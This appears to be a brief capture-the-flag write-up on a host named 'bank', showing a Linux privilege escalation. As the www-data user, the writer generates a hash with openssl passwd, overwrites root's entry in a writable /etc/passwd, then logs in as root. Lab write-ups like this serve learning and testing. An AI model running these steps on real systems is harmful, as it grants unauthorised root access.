


# 15 - PrivEsc


# /etc/passwd is writable 


Some versions of linux still allow password hash storage in /etc/passwd. With the write access we can abuse it to overwrite the root password.

# /etc/passwd
```bash
www-data@bank:/$ openssl  passwd ennozdd
6B.ME8UOeSIRk
www-data@bank:/$ vi /etc/passwd
```

`openssl passwd` generates password hashes.




# Root
```bash
www-data@bank:/$ su - root
Password: ennozdd
root@bank:~# 

```

